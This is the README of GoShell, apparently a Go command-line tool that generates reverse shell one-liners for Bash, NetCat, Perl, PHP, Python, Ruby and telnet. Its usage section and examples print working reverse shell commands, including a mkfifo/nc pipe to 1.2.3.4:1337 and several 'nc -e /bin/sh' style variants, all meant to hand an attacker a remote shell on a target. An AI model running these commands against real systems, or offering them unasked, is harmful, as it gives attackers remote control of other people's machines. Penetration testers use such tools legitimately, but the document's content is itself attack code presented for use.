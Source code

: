 # GoShell
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/you-didnt-ask-for-this.svg)](https://forthebadge.com)

Generate reverse shells in command line.

## Usage
```
USAGE:
   goshell [global options] command [command options] [arguments...]

COMMANDS:
   bash     Generate a Bash reverse shell
   nc       Generate NetCat reverse shells
   perl     Generate a Perl reverse shell
   php      Generate a PHP reverse shell
   python   Generate a Python reverse shell
   ruby     Generate a Ruby reverse shell
   telnet   Generate telnet reverse shells
   help, h  Shows a list of commands or help for one command

COMMAND OPTIONS:
   --ip value    (default: "127.0.0.1")
   --port value  (default: "8080")
   --help, -h    show help (default: false)

GLOBAL OPTIONS:
   --help, -h  show help (default: false)
```

## Examples
```
> ./goshell bash -ip 1.2.3.4 -port 1337                                                                                                            ~/dev/go/goshell
GoShell - (c)2020 - ezekiel
Note that those shells may not work on your target !

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.2.3.4 1337 >/tmp/f

> ./goshell nc                                                                                                                                 ~/dev/go/goshell
GoShell - (c)2020 - ezekiel
Note that those shells may not work on your target !

#1: nc -e /bin/sh 127.0.0.1 8080
#2: /bin/sh | nc 127.0.0.1 8080
#3: rm -f /tmp/p; mknod /tmp/p p && nc 127.0.0.1 8080 0/tmp/p
```